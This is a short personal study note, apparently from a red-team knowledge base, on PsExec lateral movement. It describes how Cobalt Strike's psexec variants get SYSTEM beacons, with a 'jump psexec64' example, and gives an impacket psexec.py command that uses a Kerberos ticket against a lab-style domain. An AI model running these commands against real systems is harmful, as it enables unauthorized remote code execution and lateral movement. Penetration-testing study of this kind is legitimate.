 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[PsExec]]  
___

## Description:  

For Lateral Movement in Cobalt Strike

The `psexec` / `psexec64` commands work by first uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  `psexec_psh` doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).

Beacons executed this way run as SYSTEM.

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25

```

### With impacket
You need a .ccache or .kirbi ticket.
To obtain those tickets from Rebeus: [[RubeusToCcache]]

```
export KRB5CCNAME=/root/impacket-examples/ticket.ccache
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:47 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
